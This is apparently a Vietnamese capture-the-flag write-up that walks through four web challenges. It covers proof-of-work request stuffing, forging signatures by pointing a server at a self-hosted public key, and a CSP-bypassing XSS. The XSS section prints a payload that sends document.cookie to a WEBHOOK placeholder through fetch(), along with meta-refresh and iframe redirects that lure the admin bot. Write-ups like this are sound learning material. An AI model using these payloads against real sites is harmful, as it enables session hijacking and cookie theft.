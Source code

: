 # Bad Worker
Sử dụng BurpSuite để ghi lại các request lên server, mình có request và response sau:

![image](https://hackmd.io/_uploads/SJC-ikDL0.png)

Request đến file flag là được.

![image](https://hackmd.io/_uploads/r17EiJPL0.png)

Flag: `FLAG{pr0gr3ssiv3_w3b_4pp_1s_us3fu1}`

# POW

Đây là đoạn script khi visit web page này

```javascript=

function hash(input) {
    let result = input;
    for (let i = 0; i < 10; i++) {
      result = CryptoJS.SHA256(result);
    }
    return (result.words[0] & 0xFFFFFF00) === 0;
}
async function send(array) {
document.getElementById("server-response").innerText = await fetch(
  "/api/pow",
  {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify(array),
  }
).then((r) => r.text());
}
let i = BigInt(localStorage.getItem("pow_progress") || "0");
async function main() {
    await send([]);
    async function loop() {
      document.getElementById(
        "client-status"
      ).innerText = `Checking ${i.toString()}...`;
      localStorage.setItem("pow_progress", i.toString());
      for (let j = 0; j < 1000; j++) {
        i++;
        if (hash(i.toString())) {
          await send([i.toString()]);
        }
      }
      requestAnimationFrame(loop);
    }
    loop();
}
main();
    
```

Khi tìm được số hợp lệ thỏa mãn hàm `hash` kia, thì nó sẽ gửi 1 request lên server dưới dạng array. Khi đó progress sẽ tăng lên 1, khi đủ 1 triệu thì ta sẽ có được flag. 

![image](https://hackmd.io/_uploads/SJkPhkwL0.png)

Chú ý rằng ta gửi lên server 1 array các string là các số hợp lệ. Vậy sẽ ra sao nếu mình gửi request với array chứa nhiều số hợp lệ kia. 

![image](https://hackmd.io/_uploads/HJRgTyv8A.png)

Mình thành công khiến progress từ 4 lên 6. Vậy viết đoạn script genenerate ra 1 triệu số hợp lệ, đưa nó vào array và gửi lên server thôi. 

Dưới đây là script python hoặc sử dụng câu lệnh js kia đưa vào dev tool cũng được.

```python=
#!/usr/bin/python3
import requests

url = "https://web-pow-lz56g6.wanictf.org:443/api/pow"
header = {"Content-Type": "application/json"}
payload = ["2862152"]*1000000
response = requests.post(url, headers=header, json=payload)
cookie = response.cookies
response = requests.post(url, headers=header, cookies=cookie, json=payload)
print(response.content)
```

```javascript=
for(let i=0;i<10;i++)await send(new Array(100000).fill("2862152"));
```

# One day one letter
Challenge này thực sự rất là dễ nếu mình nhận ra vấn đề từ sớm. 

Ở đây, web có 2 server, 1 server là timeserver generate ra private key để sign cho timestamp nó tạo ra và 1 server chính sẽ lấy pubkey từ timeserver và để verify cái timestamp mà nó nhận được. 
Time Server
![image](https://hackmd.io/_uploads/Skvr01DUR.png)

Main server
![image](https://hackmd.io/_uploads/rkdDA1wUR.png)

Client sẽ request đến time server để nhận về chuỗi json gồm 3 key-value là timestamp, signature và timeserver. 
![image](https://hackmd.io/_uploads/Hk8jRkwIR.png)

Điểm mấu chốt ở đây là tác giả lại tách nó ra làm 2 server để làm gì, rồi client có thể điều chỉnh được param timeserver. Nghĩa là mình có thể kiểm soát được cái cặp private key và pubkey đến từ đâu. Hiểu được vấn đề mình ngay lập tức generate ra cặp key và host cái pubkey của mình để server chính request lên đó mà nhận cái pubkey.

Các bước thực hiện:

```python=
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS


key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


print(key)
print(pubkey)

flag = "FLAG{lyingthetime}"
flag = "FLAG{??????h?????}"

while (True):
    timestamp = str(int(input("Input your time stamp: "))).encode('utf-8')
    h = SHA256.new(timestamp)
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    print(signature.hex())
```

1. Chạy đoạn code trên để lấy pubkey được generate ra và đưa nó vào file tên pubkey
![image](https://hackmd.io/_uploads/HkN61gwUA.png)
2. Host pubkey của mình với pagekite với tên mình mình kiểm soát và có 1 đường dẫn là pubkey đến file pubkey vừa tạo
![image](https://hackmd.io/_uploads/S1SNxxP8R.png)
3. Giờ trở lại đoạn payload python vừa nãy, nhập timestamp tùy thích của mình, nó sẽ tự tạo ra signature với private key đã tạo ứng với pubkey mình host
![image](https://hackmd.io/_uploads/BJspgxwUR.png)
4. Giờ điều chỉnh timestamp sao cho nó khác từng ngày để leak từng kí tự của flag

Flag: `FLAG{lyingthetime}`

# No Script
Bài này khiến mình overthinking hơi nhiều do nó liên quan đến redis (database kiểu nosql dính khá nhiều vuln liên quan đến ssrf) và XSS được nhá hàng ở khá nhiều nơi trong web page và source code. 

Hơi confuse giữa vuln của redis hay XSS mặc dù tác giả ghi hẳn là 
`This page is protected by csp default-src 'self', script-src 'none'.

Can you xss me in this page to steal the user's cookie?`

Ở đây, chúng ta có chức năng update profile
![image](https://hackmd.io/_uploads/HJWZGxPIA.png)

cùng với report to admin
![image](https://hackmd.io/_uploads/HJlGGlv8C.png)

(Không hiểu sao vẫn confuse)
XSS ở endpoint /username
![image](https://hackmd.io/_uploads/BkrOMgvLC.png)

Web dùng hàm WriteString với val[0] đây là username mà mình update. Hàm WriteString kia khá là giống với cái hàm innerHTML, ghi các thẻ html lên webpage. Mình thấy nếu nó bị lỗi thì sẽ ghi ra thẻ a trong kia nên payload xss mình sẽ sử dụng thẻ a. (Mình có thử thẻ img nhưng mà nó in trực tiếp lên luôn chứ không thành 1 img như bình thường)

`<a autofocus='true' tabindex=1 id=x onfocus=fetch('https://WEBHOOK',{method:'POST',mode:'no-cors',body:document.cookie})>#x</a>`

Ở profile param cũng XSS được nhưng nó bị chặn bởi csp.
![image](https://hackmd.io/_uploads/BJgN3mgPIC.png)

Do report chỉ được gửi endpoint `/user` lên admin nhưng `/username` mới là nơi XSS để steal cookie. Vậy phải làm sao? 

Có cách đó chính là redirect admin từ `/user` sang `/username` với thẻ meta.
Sau này trên dis người ta cũng chia sẻ là có thể sử dụng thẻ iframe để trỏ tới `/username`.

`<meta http-equiv="refresh" content="0;url=/username/<id>">`

`<iframe src='/username/<id>'></iframe>`

Sau đó chỉ cần report cho admin với user-id của mình là được. 